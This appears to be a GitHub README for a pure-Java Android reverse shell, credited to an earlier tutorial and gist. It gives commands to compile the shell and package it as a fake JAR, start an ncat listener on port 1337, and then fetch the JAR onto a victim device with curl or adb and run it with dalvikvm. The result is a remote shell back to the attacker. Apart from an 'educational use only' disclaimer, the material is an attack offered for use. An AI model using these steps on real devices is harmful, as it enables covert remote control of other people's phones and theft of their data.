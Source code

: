 # Pure Java Android Reverse Shell

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

## On Attacker machine (you need android sdk installed and build-tools also):

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 --output classes.dex AndroidReverseShell.class`

#### create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

You can just use DalvikVM bash script from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

(pay attention to final "AndroidReverseShell" this must be same name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner and so on...

## Todo

. Support for SSL encryption

## Disclaimer:

For educational use only !
Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java
<br />All credits goes to original developer

